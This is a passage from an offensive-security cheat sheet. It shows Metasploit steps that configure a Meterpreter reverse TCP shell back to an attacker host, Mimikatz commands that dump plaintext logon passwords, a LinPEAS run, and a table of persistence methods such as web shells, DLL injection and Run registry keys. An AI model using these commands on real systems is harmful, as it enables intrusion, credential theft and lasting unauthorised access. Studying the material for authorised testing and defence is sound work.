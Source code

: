 3. **Set Parameters:**

    ```bash
    set RHOST target_ip
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST attacker_ip
    ```

4. **Run the Exploit:**

    ```bash
    exploit
    ```

---

## 6. Post-Exploitation and Privilege Escalation

| **Technique / Tool**    | **Description**                                           |
|-------------------------|-----------------------------------------------------------|
| **Privilege Escalation Scripts** | Use LinPEAS for Linux or WinPEAS for Windows to find escalation opportunities. |
| **Mimikatz**            | Tool to extract passwords, PINs, and Kerberos tickets on Windows. |
| **BloodHound**          | Tool for Active Directory enumeration and privilege escalation paths. |
| **CrackMapExec**        | Automates post-exploitation on Windows networks (SMB, LDAP, WinRM). |
| **PowerUp**             | PowerShell script for privilege escalation on Windows systems. |

### Mimikatz Example (Extracting Plaintext Passwords)

```bash
privilege::debug
sekurlsa::logonpasswords
```

### LinPEAS Example (Linux Privilege Escalation)

```bash
./linpeas.sh
```

---

## 7. Persistence Techniques

| **Technique**          | **Description**                                           |
|------------------------|-----------------------------------------------------------|
| **Scheduled Tasks**     | Create recurring tasks to re-establish access.            |
| **Startup Programs**    | Add scripts or programs to system startup folders.        |
| **DLL Injection**       | Inject malicious DLLs into legitimate processes to evade detection. |
| **Web Shells**          | Upload web shells to compromised web servers for remote control. |
| **Registry Keys**       | Modify registry keys on Windows for persistence (e.g., HKCU\Software\Microsoft\Windows\CurrentVersion\Run). |
